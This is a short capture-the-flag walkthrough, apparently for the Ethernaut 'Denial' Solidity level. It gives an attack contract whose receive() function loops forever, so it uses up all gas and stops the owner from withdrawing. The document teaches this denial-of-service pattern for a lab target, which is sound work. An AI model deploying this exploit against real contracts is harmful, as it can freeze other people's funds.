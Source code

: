 # Denial  
This level requires a DOS attack to solve it.The key to solve it to use all the gas and prevents the owner to withdraw.

## Steps:
1. Deploy an exploiting contract with a `fallback` or `receive` function.
````solidity
pragma solidity ^0.8.0;

interface Denial{
    function setWithdrawPartner(address) external ;
    function withdraw() external;
}

contract Attack{
    Denial denial;
    constructor() public payable{
    }

    function exploit(address victim) public {
        denial = Denial(victim);
        denial.setWithdrawPartner(address(this));
        denial.withdraw();
    }
    receive() payable external{
       while(true){
       }//it is were all the gas is used
    }

}

````
2. Call the exploit function and pass your instance address.By calling this function you will set the `partner` to your  contract address and call the `withdraw` function.

The `withdraw` function will send some ether to your contract ,this will trigger the  `receive` function and use all the transaction gas.